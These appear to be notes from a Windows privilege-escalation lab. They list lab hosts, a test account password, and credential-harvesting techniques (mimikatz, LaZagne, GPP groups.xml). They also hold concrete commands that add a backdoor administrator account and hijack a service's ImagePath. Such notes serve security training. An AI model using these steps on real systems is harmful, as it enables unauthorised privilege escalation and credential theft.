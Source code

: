 # NETWORK
DOMAIN:
- NetBIOS: CSTLAB
- DNS: CSTLAB.local

192.168.56.110 - admin PC
- NetBIOS: ADMINPC
- DNS: AdminPC

192.168.56.150 - DC - NS - Kerberos - LDAP
- NetBIOS: CSTLABDC
- DNS: CSTLABDC

192.168.56.160 - INITIAL HOST
- NetBIOS: CSTLABLOWPRIV
- DNS: CSTLABLOWPRIV

|NetBIOS name|DNS name|Display name|Password|Privs|
|-|-|-|-|-|
|lowpriv?|lowpriv?|John Doe|L3tm3!n|x|

DAY 1:
```
* boot the system from an ISO, do "sticky keys" attack 
* check the registry for passwords (autologon)
* extract password from the credential manager (requires Nirsoft/mimikatz/LaZagne)
* check sysvol share (groups.xml) - (requires a decryptor, thanks Microsoft for publishing the key!)
* on some systems c:\windows\panther\unattend.xml - base64 encoded password (although in our lab, recent updates have removed this)
```

DAY 2:
```
* UNQ Service - Unquoted service path
* HJ DLL Service - DLL hijacking
* IS Registry Service - Insecure registery
* FP Service - ?
* DMT Service - ?
```

IS Registry Service - Insecure registry:
```
Computer\HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\registrysvc
C:\Program Files\IS Registry Service\isregsvc.exe

change permissions folder
change 'start' to 2

net user user_ir Password1! /add
net localgroup Administrators user_ir /add

reg add "Computer\HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\registrysvc" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\lowpriv.CSTLAB\Desktop\test\test.exe" /f
```

# REMOTE
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[lowpriv] rid:[0x450]
user:[tomadmin] rid:[0x451]

# LOCAL